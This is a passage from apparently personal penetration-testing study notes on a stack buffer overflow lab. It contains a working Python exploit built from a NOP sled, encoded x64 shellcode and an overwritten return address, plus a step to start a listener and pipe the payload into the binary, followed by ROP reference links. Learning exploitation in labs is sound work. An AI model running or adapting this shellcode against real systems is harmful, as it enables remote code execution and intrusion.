 Now it's time to create the final payload with Python:

```python
from struct import pack

payload_len = 616		
nop = "\x90"*300
rip = 0x00007fffffffdefc

buf =  ""
buf += "\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48\x8d\x05"
buf += "\xef\xff\xff\xff\x48\xbb\x4b\x39\x49\xc0\x26\xc4\xb7"
buf += "\x43\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4"
buf += "\x21\x10\x11\x59\x4c\xc6\xe8\x29\x4a\x67\x46\xc5\x6e"
buf += "\x53\xff\xfa\x49\x39\x58\x9c\x59\xc4\xb7\x42\x1a\x71"
buf += "\xc0\x26\x4c\xd4\xed\x29\x61\x61\x46\xc5\x4c\xc7\xe9"
buf += "\x0b\xb4\xf7\x23\xe1\x7e\xcb\xb2\x36\xbd\x53\x72\x98"
buf += "\xbf\x8c\x0c\x6c\x29\x50\x27\xef\x55\xac\xb7\x10\x03"
buf += "\xb0\xae\x92\x71\x8c\x3e\xa5\x44\x3c\x49\xc0\x26\xc4"
buf += "\xb7\x43"


buf_len = len(buf)
nop_len = len(nop)
padding = "A"*(payload_len-nop_len-buf_len)

payload = nop + buf + padding + pack("<Q", rip)

print payload
```

In the above script, python’s struct module has been used to convert the address to little endian style. NOP slides are used to increase the chances of hitting the “**shellcode**”. Basically, if we point register **rip** to any address which points to an **NOP** (No Operation), then the CPU would just keep moving to the next instruction. The bigger the NOP slides, more chances that our guessed value for **rip** would hit an NOP and finally execute the shellcode.&#x20;

Also, some padding has been given just before overwriting the “return address” to ensure that there is some gap between the shellcode and the “return address”. This was necessary because near the “saved frame/base pointer” some bytes were not overwritten.&#x20;

Finally, start a listener and run the “bof\_demo\_exploit.py” file created earlier, and pipe the output to the “bof\_demo” binary.

```python
python bof_demo_exploit.py | ./bof_demo
```
{% endtab %}
{% endtabs %}

## ROP

{% tabs %}
{% tab title="Intro" %}
{% code overflow="wrap" %}
```bash
# CHECK BLACKGATE BOX FROM PG PRACTICE (SUDO PRIVS TO RUN A BINARY)
https://github.com/kavishkagihan/ROP-Buffer-overflow
https://medium.com/cyber-unbound/buffer-overflows-ret2libc-ret2plt-and-rop-e2695c103c4c

# We transfer the binary to our Kali/Windows to debug it. We check props with file. We will debug it using gdb with a plugin gdf:
https://hugsy.github.io/gef/
# A good guide about gdb:
https://github.com/D4mianWayne/PwnLand/blob/master/Debugging/chapter-1.md

```